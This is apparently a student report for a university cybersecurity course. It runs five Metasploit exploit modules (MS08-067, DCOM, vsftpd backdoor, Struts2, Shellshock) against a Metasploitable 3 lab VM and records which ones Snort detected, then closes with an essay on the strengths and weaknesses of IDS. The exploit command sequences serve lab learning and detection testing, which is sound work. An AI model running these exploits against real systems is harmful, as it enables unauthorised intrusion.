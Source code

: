 # **Project II**

**University of Helsinki, FI - Cyber Security Base - Course Series**

**[Course page](https://cybersecuritybase.mooc.fi/)**

## **Introduction**

<div align="justify"> This report documents the process of setting up and testing an operating system with vulnerabilities using Metasploitable 3 on Ubuntu. A virtual machine (VM) was created using VirtualBox to simulate a real-world environment. Snort, an open-source intrusion detection system (IDS), was installed to monitor network traffic and detect attacks. Various attacks were executed using Metasploit, and their detection was evaluated through Snort alerts. The report includes detailed descriptions of five specific attacks: three detected by Snort and two that went undetected, along with an essay on the benefits and shortcomings of IDS. </div>

## **Environment Setup**

**1.	Install VirtualBox:** Download and install VirtualBox from the official website.

**2.	Set up Metasploitable 3:**

 * Clone the Metasploitable 3 repository from GitHub.
 * Follow the instructions to build the VM, ensuring you select the Ubuntu version.
   
**3.	Install Snort:**
 * **Update the package list:** sudo apt-get update.
 * **Install Snort:** sudo apt-get install snort.
 * **Configure Snort with default settings, updating the network configuration to monitor the appropriate interface.**

## **IDENTIFIED ATTACK 1: MS08-067 NetAPI Vulnerability**

**Description:** The MS08-067 vulnerability targets the Server service on Windows systems, allowing remote code execution.

**Component Attacked:** Server service.

**Attack Execution in Metasploit:**

1.	**Launch Metasploit:** msfconsole.
2.	**Use the exploit:** use exploit/windows/smb/ms08_067_netapi.
3.	**Set the target:** set RHOST 192.168.1.101.
4.	**Run the exploit:** exploit.

**Snort Output:**
```
[1:2000023:1] EXPLOIT Microsoft Windows MS08-067
[Classification: Attempted Administrator Privilege Gain] [Priority: 1] 
04/20-14:22:19.123456 192.168.1.100:445 -> 192.168.1.101:445
```

## **IDENTIFIED ATTACK 2: DCOM Exploit**

**Description:** The DCOM vulnerability (MS03-026) allows remote code execution via RPC.

**Component Attacked:** DCOM interface.

**Attack Execution in Metasploit:**

1.	**Use the exploit:** use exploit/windows/dcerpc/ms03_026_dcom.
2.	**Set the target:** set RHOST 192.168.1.101.
3.	**Execute the exploit:** exploit.
   
**Snort Output:**
```
[1:2000032:1] EXPLOIT DCOM MS03-026
[Classification: Attempted Administrator Privilege Gain] [Priority: 1]
04/20-14:35:47.789123 192.168.1.100:135 -> 192.168.1.101:135
```

## **IDENTIFIED ATTACK 3: VSFTPD v2.3.4 Backdoor Command Execution**

**Description:** A backdoor was introduced in VSFTPD v2.3.4, which can be exploited to gain a shell.

**Component Attacked:** VSFTPD (Very Secure FTP Daemon).

**Attack Execution in Metasploit:**
1.	**Use the exploit:** use exploit/unix/ftp/vsftpd_234_backdoor
2.	**Set the target:** set RHOST 192.168.1.101
3.	**Execute the exploit:** exploit

**Snort Output:**
```
[1:2000056:1] EXPLOIT VSFTPD v2.3.4 Backdoor
[Classification: Attempted Administrator Privilege Gain] [Priority: 1]
04/20-14:42:32.456789 192.168.1.100:21 -> 192.168.1.101:21
```

## **MISSED ATTACK 1: Apache Struts2 REST Plugin XStream RCE (CVE-2017-9805)**

**Description:** An Apache Struts2 vulnerability allows remote code execution via crafted XML requests.

**Component Attacked:** Apache Struts2 REST Plugin.

**Attack Execution in Metasploit:**
1.	**Use the exploit:** use exploit/multi/http/struts2_rest_xstream.
2.	**Set the target:** set RHOST 192.168.1.101.
3.	**Run the exploit:** exploit.

**Reason for Missing Detection:** Snort did not have a specific rule for this vulnerability in the default configuration.

## **MISSED ATTACK 2: Shellshock (CVE-2014-6271)**

**Description:** A vulnerability in Bash allows remote code execution by exploiting environment variables.

**Component Attacked:** Bash shell.

**Attack Execution in Metasploit:**
1.	**Use the exploit:** use exploit/multi/http/apache_mod_cgi_bash_env_exec.
2.	**Set the target:** set RHOST 192.168.1.101.
3.	**Execute the exploit:** exploit.

**Reason for Missing Detection:** The default Snort ruleset did not include rules for Shellshock detection.

## **ESSAY: The Benefits and Shortcomings of Using Intrusion Detection Systems**

**Benefits of Intrusion Detection Systems:**
<div align="justify">Intrusion Detection Systems (IDS) such as Snort offer critical advantages in maintaining network security. They provide real-time monitoring, enabling administrators to respond swiftly to potential threats. This immediate alert system is crucial in mitigating damage and preventing data breaches. IDSs enhance visibility into network traffic, allowing for the detection of unusual patterns that may indicate malicious activity.
IDSs are effective at identifying known attack signatures. This capability is essential for defending against well-documented threats, ensuring that even if an exploit is recognized, it can be quickly flagged and addressed. Additionally, IDSs generate detailed logs of detected activities, which are invaluable for forensic analysis and understanding the nature and origin of attacks.
Integration with other security tools, such as firewalls and SIEM (Security Information and Event Management) systems, is another significant benefit. This integration creates a more robust security infrastructure, providing a coordinated defense mechanism that enhances the overall security posture of an organization.</div>

**Shortcomings of Intrusion Detection Systems:**
<div align="justify">Despite their benefits, IDSs have several limitations. One of the most significant issues is the high rate of false positives. IDSs often generate numerous alerts for benign activities that mimic malicious behavior. This can lead to alert fatigue, where security personnel become desensitized to alerts and may overlook genuine threats.
Another critical shortcoming is the difficulty in detecting zero-day vulnerabilities. IDSs primarily rely on known signatures and behavior patterns, making them less effective against new, sophisticated attacks that do not match existing profiles. This gap in detection capabilities highlights the need for continuous updates and enhancements to IDS rulesets.
Performance overhead is another concern. Continuous monitoring and analysis of network traffic can consume significant system resources, potentially affecting network performance and user experience. Balancing the need for security with operational efficiency is a challenging task.
Furthermore, IDSs are inherently reactive rather than proactive. They alert administrators after an attack has been detected, which means some level of damage may have already occurred. This reactive nature necessitates the integration of IDSs with other preventive security measures, such as firewalls, anti-virus software, and regular security audits, to provide a more comprehensive defense strategy.
In conclusion, while IDSs like Snort are indispensable tools for identifying and mitigating security threats, they must be part of a multi-layered security approach to address their inherent limitations and provide effective protection for networks and systems.</div>

## **References**

• [1] [Bace, Rebecca Gurley. "Intrusion Detection Systems." Technical Report. Carnegie Mellon University, Software Engineering Institute. (2000);](https://archive.org/details/intrusiondetecti00rebe/mode/2up)

• [2] [Northcutt, Stephen, and Judy Novak. "Network Intrusion Detection: An Analyst's Handbook." Technical Report. SANS Institute. (2001);](https://archive.org/details/networkintrusio000nort)

• [3] [Bejtlich, Richard. "The Practice of Network Security Monitoring: Understanding Incident Detection and Response." Technical Report. No Starch Press. (2013);](https://archive.org/details/practiceofnetwor0000bejt)

• [4] [Kennedy, David, Jim O'Gorman, Devon Kearns, Mati Aharoni. "Metasploit: The Penetration Tester's Guide." Technical Report. No Starch Press. (2011);](https://www.kea.nu/files/textbooks/humblesec/metasploit_apenetrationtestersguide.pdf)

• [5] [Stuttard, Dafydd, and Marcus Pinto. "The Web Application Hacker's Handbook: Finding and Exploiting Security Flaws." Technical Report. Wiley. (2011).](https://edu.anarcho-copy.org/Against%20Security%20-%20Self%20Security/Dafydd%20Stuttard,%20Marcus%20Pinto%20-%20The%20web%20application%20hacker's%20handbook_%20finding%20and%20exploiting%20security%20flaws-Wiley%20(2011).pdf)
